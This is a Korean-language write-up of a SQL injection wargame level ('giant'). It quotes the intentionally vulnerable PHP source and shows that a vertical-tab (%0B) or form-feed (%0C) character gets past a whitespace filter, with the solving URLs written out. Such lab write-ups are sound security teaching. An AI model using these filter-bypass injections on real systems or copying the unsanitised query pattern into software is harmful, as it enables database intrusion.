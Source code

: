 # Lord of SQL Injection No.14 - giant

## 문제 출제 의도

`\n`, `\r`, `\t`, `(공백)` 을 포함하지 않고 SQL Injection을 하여 공백 효과를 낼 수 있는지 확인한다.

## 소스 코드 분석

giant 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(strlen($_GET[shit])>1) exit("No Hack ~_~"); 
  if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe"); 
```
* GET방식으로 shit를 받고, shit의 길이가 1 초과이면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

* 또한, shit에 `(공백)`, `\n`, `\r`, `\t` 가 들어 있으면 `HeHe`가 뜨고 문제 풀이에 실패한다.

```php
  $query = "select 1234 from{$_GET[shit]}prob_giant where 1"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result[1234]) solve("giant"); 
```
* 받은 shit이 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 문제 풀이가 성공하는 조건은 '`$result[1234]`에 "0"을 제외한 어떤 값이든 들어 있음'이다. 즉, `$_GET[shit]`이 공백 역할을 하도록 한 문자를 삽입하면 풀린다.

## `(공백)`, `\n`, `\r`, `\t`을 제외한 한 문자 공백문자 대체

1. VT(Vertical Tab)

    ASCII Code 표를 살펴보면 16진수로 0x0B는 Vertical Tab에 해당한다.

    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

2. FF(Form Feed)

    ASCII Code 표를 살펴보면 16진수로 0x0C는 Form Feed에 해당한다.

    이는 MySQL에서 공백으로 인식하는 문자들 중 하나이다.

-----

## Solution
    
1. Vertical Tab 이용

    %0B(Vertical Tab)을 GET방식으로 shit의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0B
    ```
    
2. Form Feed 이용

    %0C(Form Feed)을 GET방식으로 shit의 값으로 전달하면 풀린다.
    
    ```
    http://los.eagle-jump.org/giant_9e5c61fc7f0711c680a4bf2553ee60bb.php?shit=%0C
    ```